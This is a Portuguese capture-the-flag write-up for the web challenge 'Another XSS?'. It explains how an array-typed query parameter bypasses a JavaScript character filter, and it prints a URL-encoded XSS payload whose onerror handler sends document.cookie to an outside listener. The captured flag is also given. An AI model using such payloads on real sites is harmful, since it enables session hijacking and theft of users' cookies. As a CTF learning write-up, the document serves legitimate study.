


# Another XSS?
### _WEB_

Acessando o desafio nos deparamos com uma página em branco. Lendo o HTML da página temos o seguinte javascript:
```
var params = can.deparam(location.search.slice(1));
var content = ( params.hasOwnProperty('content') ? params.content : "" );

if (content.indexOf('<') != -1 || content.indexOf('>') != -1 || content.indexOf(':') != -1 || content.indexOf('(') != -1 || content.indexOf(')') != -1 || content.indexOf('`') != -1){ 
	content = false;
} 

var child = document.getElementById("content");
child.innerHTML = content;
```

Além de se ter o comentário ```/admin```. Tendo o admin e o nome da chall ser "Another XSS?" já se sabe falha a ser explorada.

Analisando o JS, o parâmetro content recebe um valor e esse valor é colocado na página, depois de algumas verificações de caracteres (para evitar execução de javascript).


Não conseguimos apenas passar uma tag html para executar um javascript pois a maioria está sendo bloqueada. Porém, ao passar o parâmetro content como um array, temos que as função indexOf retorna tudo -1 pois a função trabalha apenas com strings. Sendo assim, temos o nosso payload ```?content[][]=```


E, então, para pegar a flag: ```?content[][]=```

Enviando ```http://ctf-defconpoa:5008/?content[][]=%3Cimg%20src%3Dx%20onerror%3D%22location%3D'http%3A%2F%2F0.0.0.0%3A8000%2F%3Fflag%3D'%2Bdocument.cookie%22%3E``` para o ```/admin```...

No servidor:


FLAG:
```DC5551{xss_every_d4y!}```
